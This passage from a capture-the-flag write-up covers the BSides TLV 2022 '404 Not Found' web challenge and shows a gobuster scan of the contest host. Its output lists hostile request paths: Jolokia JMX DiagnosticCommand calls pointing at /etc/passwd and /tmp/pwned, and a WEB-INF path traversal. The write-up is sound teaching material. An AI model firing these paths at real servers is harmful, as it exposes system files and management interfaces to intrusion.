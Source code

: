 # BSides TLV CTF 2022 -
[https://ctf22.bsidestlv.com/](https://ctf22.bsidestlv.com/)  
Web, 100 Points

## Description

![‏‏info.JPG](images/info.JPG)

Attached URL [https://not-found.ctf.bsidestlv.com/](https://not-
found.ctf.bsidestlv.com/)

Attached file [dirlist.txt](./dirlist.txt)

## 404 Not Found Solution

By observing to the URL [https://not-found.ctf.bsidestlv.com/](https://not-
found.ctf.bsidestlv.com/) we get the following content:

![webpage.JPG](images/webpage.JPG)

Let's run ```gobuster``` with the attached dictionary list file:  
```console  
┌─[evyatar@parrot]─[/ctf/2022_bsidestlv/web/404_not_found]  
└──╼ $ gobuster dir -u https://not-found.ctf.bsidestlv.com/ -w
/ctf/2022_bsidestlv/web/404_not_found/dirlist.txt -t 100 -k --wildcard  
===============================================================  
Gobuster v3.1.0  
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)  
===============================================================  
[+] Url:                     https://not-found.ctf.bsidestlv.com/  
[+] Method:                  GET  
[+] Threads:                 100  
[+] Wordlist:                /ctf/2022_bsidestlv/web/404_not_found/dirlist.txt  
[+] Negative Status codes:   404  
[+] User Agent:              gobuster/3.1.0  
[+] Timeout:                 10s  
===============================================================  
2022/06/28 23:26:59 Starting gobuster in directory enumeration mode  
===============================================================  
/faces/javax.faces.resource/web.xml?ln=..\\WEB-INF (Status: 400) [Size: 49]  
/jolokia/             (Status: 200) [Size: 415]  
/jolokia/exec/com.sun.management:type=DiagnosticCommand/vmLog/output=!/tmp!/pwned
(Status: 200) [Size: 2643]  
/jolokia/exec/com.sun.management:type=DiagnosticCommand/vmLog/disable (Status:
200) [Size: 2631]  
/jolokia/exec/com.sun.management:type=DiagnosticCommand/vmSystemProperties
(Status: 200) [Size: 2620]  
/jolokia/exec/com.sun.management:type=DiagnosticCommand/help/* (Status: 200)
[Size: 2625]  
/jolokia/exec/com.sun.management:type=DiagnosticCommand/jfrStart/filename=!/tmp!/foo
(Status: 200) [Size: 2646]  
/jolokia/list?maxObjects=100 (Status: 200) [Size: 3085]  
/jolokia/read/java.lang:type=Memory/HeapMemoryUsage/used (Status: 200) [Size:
157]  
/jolokia/exec/com.sun.management:type=DiagnosticCommand/compilerDirectivesAdd/!/etc!/passwd
(Status: 200) [Size: 2653]  
/jolokia/search/*:j2eeType=J2EEServer,* (Status: 200) [Size: 110]  
/jolokia/exec/ch.qos.logback.classic (Status: 200) [Size: 1767]  
/jolokia/read/java.lang:type=*/HeapMemoryUsage (Status: 200) [Size: 248]  
/jolokia/exec/com.sun.management:type=DiagnosticCommand/jvmtiAgentLoad/!/etc!/passwd
(Status: 200) [Size: 2646]  
/jolokia/version      (Status: 200) [Size: 415]  
```